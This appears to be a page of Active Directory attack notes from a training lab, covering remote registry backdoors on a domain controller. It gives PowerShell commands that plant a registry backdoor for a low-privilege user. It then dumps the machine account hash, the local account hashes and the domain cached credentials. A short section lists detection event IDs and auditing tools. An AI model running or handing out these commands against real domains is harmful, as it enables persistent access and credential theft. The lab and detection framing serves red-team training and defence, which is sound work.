 #### Remote Registry

Remote registry changes and backdoors

```powershell
# With admin privs on remote machine, create backdoor
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student572 -Verbose

# As student572, retrieve machine account hash
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

## Detection

- Events (Audit Policy for object must be enabled)
  - 4662: An operation was performed on an object
  - 5136: A directory service object was modified
  - 4670: Permissions on an object were changed
- Useful tools:
  - Bloodhound
  - [AD ACL Scanner](https://github.com/canix1/ADACLScanner) - Create and compare reports of ACLs
